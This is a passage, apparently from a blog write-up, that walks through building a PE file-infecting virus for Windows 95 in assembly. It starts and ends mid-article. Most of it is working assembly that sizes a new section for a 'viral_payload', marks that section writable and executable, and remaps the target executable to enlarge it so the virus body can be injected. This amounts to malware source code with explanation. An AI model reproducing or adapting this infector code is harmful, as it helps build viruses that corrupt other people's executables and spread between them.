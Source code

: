 ```nasm{numberLines:true}
  mov eax, viral_payload_size
  sub eax, 1
  xor edx, edx
  div [fileAlignment]
  add eax, 1
  mul [fileAlignment]
  mov (IMAGE_SECTION_HEADER [edi]).SizeOfRawData, eax

  ; Fix the raw data pointer - this should point to the beginning of the
  ; new section, which is located right after the end of the current last
  ; section. Adding the last section's PointerToRawData (the start of the
  ; last section) to SizeOfRawData gives us this address.
  mov ebx, [lastSegHeader]
  mov eax, (IMAGE_SECTION_HEADER [ebx]).PointerToRawData
  add eax, (IMAGE_SECTION_HEADER [ebx]).SizeOfRawData
  mov (IMAGE_SECTION_HEADER [edi]).PointerToRawData, eax

  ; Save the pointer to raw data and the size of the raw data
  mov eax, (IMAGE_SECTION_HEADER [edi]).PointerToRawData
  mov [injectStart], eax
  mov eax, (IMAGE_SECTION_HEADER [edi]).SizeOfRawData
  mov [injectSize], eax

  ; Fix the section flags. Notably we want this to be both EXECUTE and WRITE
  mov ecx, IMAGE_SCN_MEM_READ + \
           IMAGE_SCN_MEM_WRITE + \
           IMAGE_SCN_MEM_EXECUTE + \
           IMAGE_SCN_CNT_CODE
  mov (IMAGE_SECTION_HEADER [edi]).SecHdrCharacteristics, ecx
```

# Writing the virus code into the new section

The last trick I needed to perform is to expand the target's overall file size. The new section metadata that gets added is inside of existing slack space between the end of the `IMAGE_NT_HEADERS` structure and the beginning of the first section and didn't require changing the file size. The new section content will be added at the end of the file and so I had to enlarge the overall executable to make room after the last section's contents.

Increasing the file size turns out to be pretty easy and only required remaping the file using `CreateFileMappingA` and `MapViewOfFile` again, adjusting the arguments to account for the new space. Because I'm modifying a PE file on disk I need to adjust by the new section's `SizeOfRawData` not the original unpadded size or the `VirtualSize`.

```nasm{numberLines:true}
  ; Calculate the new size we should map. This is the old file size + 
  ; the size of the new section on-disk
  mov eax, [targetFileSize]
  mov ecx, [injectSize]
  add eax, ecx
  mov ebx, [targetFileHandle]

  ; Memory map the target PE file again with this new size
  call CreateFileMappingA, \
         ebx,\                 ; file handle
         0h,\                  ; sec attributes (not used for win95)
         PAGE_READWRITE,\      ; r/w attributes
         0h,\                  ; flProtect (??)
         eax,\                 ; high size (adjusted filesize)
         0h                    ; low size
  cmp eax, 0h
  je error
  ; Save a handle to the new memory map
```